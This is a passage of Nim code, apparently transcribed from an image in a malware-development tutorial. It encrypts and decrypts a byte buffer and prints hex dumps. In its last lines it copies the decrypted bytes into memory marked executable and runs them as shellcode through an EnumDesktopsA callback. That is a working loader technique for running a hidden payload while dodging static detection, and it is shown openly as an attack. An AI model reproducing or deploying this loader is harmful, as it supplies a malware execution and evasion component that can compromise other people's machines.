 ```nim
  echo ""

  # pad data to ensure it's a multiple of 8 bytes
  let paddedData = padData(data, 8)
  echo "\npadded data (", paddedData.len, " bytes):"
  for b in paddedData:
    stdout.write &"{b:02x} "
  echo ""

  # convert to uint32 blocks for encryption
  var uint32Blocks = bytesToUint32(paddedData)
  
  # encrypt all blocks
  for i in 0..<uint32Blocks.len:
    encrypt(uint32Blocks[i], key)
  
  let encryptedBytes = uint32ToBytes(uint32Blocks)
  echo "\nencrypted data (", encryptedBytes.len, " bytes):"
  for b in encryptedBytes:
    stdout.write &"{b:02x} "
  echo ""

  # decrypt all blocks
  for i in 0..<uint32Blocks.len:
    decrypt(uint32Blocks[i], key)
  
  # convert back to bytes
  var decryptedBytes = uint32ToBytes(uint32Blocks)
  
  # remove padding
  decryptedBytes = unpadData(decryptedBytes)
  
  echo "\ndecrypted data (", decryptedBytes.len, " bytes):"
  for b in decryptedBytes:
    stdout.write &"{b:02x} "
  echo ""

  if decryptedBytes == data:
    echo "\nsuccess: decrypted data matches original =^..^="
  else:
    echo "\nerror: decrypted data doesn't match original :("
    # find the first mismatch
    var mismatchPos = -1
    for i in 0..<min(decryptedBytes.len, data.len):
      if decryptedBytes[i] != data[i]:
        mismatchPos = i
        break
    if mismatchPos >= 0:
      echo "first mismatch at byte: ", mismatchPos
    else:
      echo "length mismatch: original ", data.len, " bytes, decrypted ", decryptedBytes.len, " bytes"

  let mem = VirtualAlloc(NULL, cast[SIZE_T](decryptedBytes.len), MEM_COMMIT, PAGE_EXECUTE_READWRITE)
  RtlMoveMemory(mem, unsafeAddr decryptedBytes[0], cast[SIZE_T](decryptedBytes.len))
  let payloadProc = cast[DESKTOPENUMPROCA](mem)
  discard EnumDesktopsA(GetProcessWindowStation(), payloadProc, 0)
```
